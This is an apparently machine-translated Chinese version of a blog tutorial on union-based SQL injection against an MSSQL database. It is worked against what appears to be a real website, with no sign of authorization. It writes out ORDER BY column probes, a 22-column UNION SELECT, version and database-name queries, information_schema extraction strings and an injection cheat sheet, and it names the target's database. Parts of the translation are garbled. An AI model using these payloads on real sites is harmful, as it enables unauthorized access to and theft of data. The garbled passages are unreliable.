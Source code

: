 # 有趣的 SQL 注入 3 — MSSQL 实用示例 | In 西班牙语

> 原文：<https://infosecwriteups.com/inyecci%C3%B3n-sql-divertida-3-mssql-ejemplo-practico-43f883f5eeb7?source=collection_archive---------2----------------------->

你好,亲爱的读者,我真的很高兴你能给我一些宝贵的时间来阅读下面的文章。这一次,我将继续使用 SQL 注入系列,更具体地说,我们将使用后端 MSSQL 数据库分析易受 SQL 注入影响的网站。

![](img/69f5ba716fab721c6251bb569159b8a4.png)

首先我想记住**什么是 SQL 注入?(T1):**

> “SQL 注入或 SQL 注入是一个漏洞,允许攻击者以恶意和恶意的方式发送或“注入”SQL 语句。
> 
> SQL 错误通常发生在具有或创建 SQL 的程序中的变量过滤不当的情况下,通常是当您向用户请求任何未经验证的输入(例如其名称和密码)时,但作为交换,攻击者发送一个将在数据库中执行的入侵 SQL 语句。

看完一些基础知识后,我们就开始了。

首先是找到一个我们可以练习的易受攻击的站点,当我们确定了易受攻击的参数时,我们会玩一点。

## **第 1 步——识别易受攻击的网站上的错误**

作为第一步,我们需要做的第一件事是确定该网站是否真的易受攻击,并确保我们实际上使用的是 MSSQL 数据库。

我们有 link:

> “site/example/parameter=27”

我们可以看到该网站从一开始就向我们显示以下错误,描述其 SQL 语法中存在内部错误,同时显示它使用 MSSQL。

> **警告** : mssql_query() [function.mssql-query]: 消息: 语法在关键字“和”附近不正确。

![](img/2910a2d206c620204852a96ded5cd202.png)

## 步骤 2 — 识别列数

既然我们已经确定该网站是脆弱的,并且我们知道我们正在处理的数据库,在这种情况下是 MSSQL,那么是时候检测列数了,我们将使用函数 **ORDER BY** 。

使用上述功能,我们进行初步测试,以验证网站是否允许我们使用此列检测方法。

我们首先看到的是,使用***order by 1*** 网站仍然正常运行,但是使用***order by 100*** 一切都崩溃并显示错误,这是一个很好的方法,这意味着我们可以使用这种方法来检测,例如:

```
site/ejemplo/parametro=-25527 order by 1 -- ✔

site/ejemplo/parametro=-25527 order by 100 -- x
```

![](img/84c35cd6f861697d3bebb2e9fb66b06c.png)

> 警告 : mssql_query() [function.mssql-query]: message: The Order By position number 100 is out of the range of items in the selected list.(Severity 16)

我们要寻找的是一个平衡点,在那里我们有确切的列数,不要放更少,但也不要更多。

```
site/ejemplo/parametro=-27 order by 1 -- ✔
site/ejemplo/parametro=-27 order by 10 -- ✔
site/ejemplo/parametro=-27 order by 22 --✔
site/ejemplo/parametro=-27 order by 23 -- x
site/ejemplo/parametro=-27 order by 24 -- x
site/ejemplo/parametro=-27 order by 100 -- x
```

上面的列表是什么意思?基本上,我们正在做的是询问下面的数据库,如果该 URL 中的网站正在使用特定数量的列,当我们询问它是否正在使用更大的数字时,我们会返回一个错误,例如在最后一张图片中看到的错误。

该网站有 22 个栏目。

转到下一个命令。**union select (T1)**

为了正确使用以下命令,我们需要给出我们要处理的特定列数。使用此命令,我们告诉数据库我想使用这些列,这将使我们能够准确地看到每个列的位置以及它在网站上的使用位置,以便从其中一个列中工作并使用更多选项提取数据。

```
site/ejemplo/parametro=-27 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22--
```

![](img/6b6b882759d2042039731307655e9c39.png)

现在,通过要求数据库向我们显示 22 列的位置,我们可以看到网站上不同部分的数字从 1 到 22 不等。这些代表列以及它们被使用的位置。

## 步骤 3 - 提取信息

要进入提取信息的主题,请记住,我们在 MSSQL 下作为数据库工作,因此我们必须集中使用 MSSQL 命令。

我将从 MSSQL 留下一个**CHEAT-CHEET**

```
--           :     Comment Type 1
--+          :     Comment Type 2
--+-         :     SQL Comment
/**/         :     Inline Comment
;%00         :     Null Byte
@@version    :     Current Version
user_name()  :     Current User
user         :     Current User
db_name()    :     Current Database
@@SERVERNAME :     Hostname
Tables       :     union select table_name from (select top 1 table_name from information_schema.tables order by 1) as 1 order by 1 desc--
Columns      :     union select column_name from (select top 1 column_name from information_schema.columns where table_name='table' order by 1) as 1 order by 1 desc--
Dump info    :     union select culumn form table--
```

我们首先要求数据库告诉我们它是什么版本,我们使用@@version 命令。URL 是这样的:

```
site/ejemplo/parametro=-27 UNION SELECT 1,2,3,@@version,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22--
```

我们在第 4 列中使用它,结果如下:

![](img/4221a898ff0aae1c9f9f93f0c19ad147.png)

因此,数据库返回有关其版本的信息:

```
Microsoft SQL Server 2008 (RTM) - 10.0.1600.22 (X64) 
 Jul  9 2008 14:17:44 
 Copyright (c) 1988-2008 Microsoft Corporation
 Standard Edition (64-bit) on Windows NT 6.2 <X64> (Build 9200: ) (VM)
```

我们已经知道它是一个 MSSQL 2008 (RTM) 数据库 — 10.0.1600.22

要从数据库中提取名称,我们使用以下方法:

```
DB_NAME(N); — for N = 0, 1, 2, …

-27 UNION SELECT 1,2,3,DB_NAME(5),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22--
```

![](img/3f80241cbab5e9db78fdd8fc62995142.png)

我们可以注意到,我选择的数据库名为:ASSIPROFAR

要从表中提取名称,我们使用以下内容:

```
table_name + from (select top 1 table_name from information_schema.tables order by 1) as a order by 1 desc
```

从每个表的列中提取名称

```
column_name from (select top 1 column_name from information_schema.columns where table_name='table' order by 1) as 1 order by 1 desc--
```

在这种情况下,我将跳过放置图像,以便不显示网站的敏感信息。

我把这封信留到这里。如果你喜欢这种类型的内容,并一直停留到这一点,我再次感谢你,给我的机会和明确的,如果你喜欢,并希望在这里分享的信息,你可以分享。